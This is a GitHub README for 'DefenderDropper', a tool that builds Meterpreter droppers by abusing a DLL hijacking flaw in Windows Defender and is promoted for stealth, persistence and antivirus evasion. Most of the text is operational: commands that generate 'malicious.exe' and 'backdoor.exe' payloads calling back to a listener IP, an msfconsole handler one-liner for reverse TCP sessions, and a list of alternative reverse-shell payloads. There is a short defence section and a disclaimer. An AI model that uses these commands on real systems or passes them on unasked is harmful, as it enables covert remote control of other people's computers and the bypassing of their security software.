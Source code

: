 #  DefenderDropper

**Advanced DLL Hijacking Payload Generator Using Windows Defender Vulnerabilities**

![Banner](assets/banner.jpg)
[![Python](https://img.shields.io/badge/Python-3.6%2B-blue)](https://python.org)
[![Metasploit](https://img.shields.io/badge/Metasploit-Compatible-red)](https://metasploit.com)
[![License](https://img.shields.io/badge/License-MIT-green)](LICENSE)

##  Overview

DefenderDropper is an advanced payload generation tool that leverages the DLL hijacking vulnerability in Windows Defender, originally discovered by [TwoSevenOneT](https://github.com/TwoSevenOneT/DefenderWrite). This tool automates the creation of sophisticated payloads that bypass security controls by hijacking legitimate Windows Defender processes.

>  **Inspired by**: [TwoSevenOneT/DefenderWrite](https://github.com/TwoSevenOneT/DefenderWrite)

##  Features

- **Windows Defender Exploitation**: Leverages DLL hijacking in Windows Defender
- **Automated Payload Generation**: Creates ready-to-use droppers and DLLs
- **Metasploit Integration**: Seamless integration with Meterpreter payloads
- **Static Compilation**: No external dependencies required
- **Stealth Execution**: Runs through legitimate system processes
- **Multiple Payload Support**: Various reverse shell and Meterpreter options

##  Quick Start

### Prerequisites

```bash
# Install dependencies on Debian/Kali
sudo apt update
sudo apt install python3 metasploit-framework mingw-w64 -y
```
# Installation
```bash
git clone https://github.com/YourUsername/DefenderDropper.git
cd DefenderDropper
```

# Generate payload
```
python3 defenderdropper.py 10.0.2.147 4443 -o malicious.exe
```
# Start Metasploit listener
```
msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_tcp; set LHOST 10.0.2.147; set LPORT 4443; exploit'
```

# How It Works
Technical Overview
DLL Hijacking: Exploits Windows Defender's vulnerable update process

Process Injection: Injects shellcode into legitimate system processes

Persistence: Leverages trusted Windows components for execution

Evasion: Bypasses common security controls and antivirus solutions

# Attack Flow

![Banner](assets/digram.png)


# File Structure
```
DefenderDropper/
├── defenderdropper.py    # Main payload generator
├── payload.exe           # Generated dropper
├── payload.dll           # Shellcode DLL
├── DefenderWrite.exe     # Core exploit tool
├── README.md
└── LICENSE
```
# Usage Examples
Basic Meterpreter Payload
```bash
python3 defenderdropper.py 192.168.1.100 4444 -o backdoor.exe
```


# Advanced Features
Custom Payloads

You can modify the generate_shellcode() function to use different Metasploit payloads, on defenderdropper.py search for windows/x64/meterpreter_reverse_tcp and replace it with other payloads:

```
"-p", "windows/x64/shell_reverse_tcp",  # Simple reverse shell
"-p", "windows/meterpreter/reverse_https",  # HTTPS payload
"-p", "windows/x64/meterpreter/reverse_tcp",  # Standard Meterpreter
```

# Defense & Mitigation
Detection
Monitor for unusual msiexec.exe child processes

Watch for DLL files in Windows Defender directory

Analyze process hollowing techniques

# Prevention
Keep Windows Defender updated

Implement application whitelisting

Use advanced endpoint protection

Regular security audits

# Legal Disclaimer
This tool is intended for:

 Security research

 Penetration testing with proper authorization

 Educational purposes

 Red team exercises

 Illegal use of this tool is strictly prohibited. The developers are not responsible for any misuse or damage caused by this tool. Always ensure you have explicit permission before testing any systems.

# Contributing
We welcome contributions from the security community! Feel free to:

Fork the repository

Create feature branches

Submit pull requests

Report issues and suggestions

# Special Thanks
TwoSevenOneT for the original DefenderWrite research

The cybersecurity community for continuous improvement

# License
This project is licensed under the MIT License - see the [LICENSE](https://github.com/HackScaleTeam/DefenderDropper/LICENSE). file for details.

 Security is a shared responsibility. Use this tool wisely and ethically.

Built with ❤️ for the cybersecurity community. Inspired by groundbreaking research from TwoSevenOneT.
